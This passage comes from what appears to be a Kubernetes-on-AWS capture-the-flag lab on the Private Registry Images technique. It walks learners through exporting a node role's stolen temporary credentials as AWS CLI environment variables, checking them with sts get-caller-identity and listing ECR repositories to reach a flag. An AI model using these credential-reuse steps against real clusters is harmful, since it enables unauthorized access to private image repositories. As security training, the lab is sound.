 ## Private Registry Image Access

The [Private Registry Images](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/images%20from%20a%20private%20registry/){: target="_blank" rel="noopener"} attacker technique uses credentials stored on the Kubernetes node to gain unauthorized access to container image repositories. [Image pull credentials](https://kubernetes.io/docs/tasks/configure-pod-container/pull-image-private-registry/){: target="_blank" rel="noopener"} can be used to access a private container repository, but the cloud provider's each have a their own recommended authentication process.

Use the node's temporary credentials to [pull the private image from the account's ECR repository](https://docs.aws.amazon.com/AmazonECR/latest/userguide/docker-pull-ecr-image.html){: target="_blank" rel="noopener"} exfiltrate the **Cascadia CVR** flag from ECR.

1. Open a new Terminal on your machine and set the required [AWS CLI environment variables](https://docs.aws.amazon.com/cli/v1/userguide/cli-configure-envvars.html){: target="_blank" rel="noopener"} to use the node's temporary credentials. What is the name of the ECR repository and URL that contains the `cascadia` flag.

    ??? tip "Hint"

        - Make sure you open a new Terminal session. Then, set each of the following environment variables to the configure the new Terminal session. Replace the `NODE_ROLE_ACCESS_KEY_ID`, `NODE_ROLE_SECRET_ACCESS_KEY`, and `NODE_ROLE_SESSION_TOKEN` placeholders with the values obtained from the previous step.

            ```bash
            export AWS_ACCESS_KEY_ID=ENTER_NODE_ROLE_ACCESS_KEY_ID
            export AWS_SECRET_ACCESS_KEY=ENTER_NODE_ROLE_SECRET_ACCESS_KEY
            export AWS_SESSION_TOKEN=ENTER_NODE_ROLE_SESSION_TOKEN
            export AWS_DEFAULT_REGION=us-west-2
            ```

        - Run the `aws sts get-caller-identity` command to verify you have properly configured the IAM role's temporary credentials. The output should show you are authenticating as the node's EC2 instance profile role.

            ```bash
            aws sts get-caller-identity
            ```

            !!! abstract "Expected Output"
                ```console
                {
                  "UserId": "AROASZY2ZSU65B7QQKFEP:i-0304eb3fda5d5c44d",
                  "Account": "123456789012",
                  "Arn": "arn:aws:sts::123456789012:assumed-role/hth-node-role-random-id/i-0304eb3fda5d5c44d"
                }
                ```

        - List all of the ECR repositories in the account. The output will show one container repository that contains the **cascadia** flag. Make a note of the **repositoryUri** value for the next step.

            ```bash
            aws ecr describe-repositories
            ```

